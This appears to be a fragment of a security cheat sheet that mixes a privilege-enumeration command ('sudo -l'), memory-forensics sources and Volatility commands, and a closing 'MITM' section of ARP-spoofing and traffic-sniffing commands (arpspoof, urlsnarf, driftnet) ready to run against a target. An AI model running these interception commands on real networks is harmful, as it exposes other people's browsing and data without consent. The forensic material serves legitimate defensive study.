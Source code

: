 ```sudo -l (NOTE: lists commands a user can run as root) ```
For Windows systems, this can be done via pulling the  following file:     %SystemDrive%/hiberfil.sys
         
    VMware - .vmem file
    Hyper-V - .bin file
    Parallels - .mem file
    VirtualBox - .sav file NOTE: This is only a partial memory file. You'll need to dump memory like a normal bare-metal system for this hypervisor
                
**volatility  (cmd line tool):**
       
                volatility -f MEMORY_FILE.raw imageinfo
                volatility -f MEMORY_FILE.raw --profile=PROFILE pslist
                volatility -f MEMORY_FILE.raw --profile=PROFILE netscan
                volatility -f MEMORY_FILE.raw --profile=PROFILE psxview
                volatility -f MEMORY_FILE.raw --profile=PROFILE ldrmodules
                volatility -f MEMORY_FILE.raw --profile=PROFILE apihooks
                volatility -f MEMORY_FILE.raw --profile=PROFILE malfind -D <Destination Directory>
                volatility -f MEMORY_FILE.raw --profile=PROFILE dlllist
                volatility -f MEMORY_FILE.raw --profile=PROFILE --pid=PID dlldump -D <Destination Directory>
		
## MITM:

    echo 1 > /proc/sys/net/ipv4/ip_forward
    arpspoof -i wlan0 -t (router address) (target computer address)
    arpspoof -i wlan -t (target computer address) (router address)
    urlsnarf -i wlan0
    driftnet -i wlan0

         
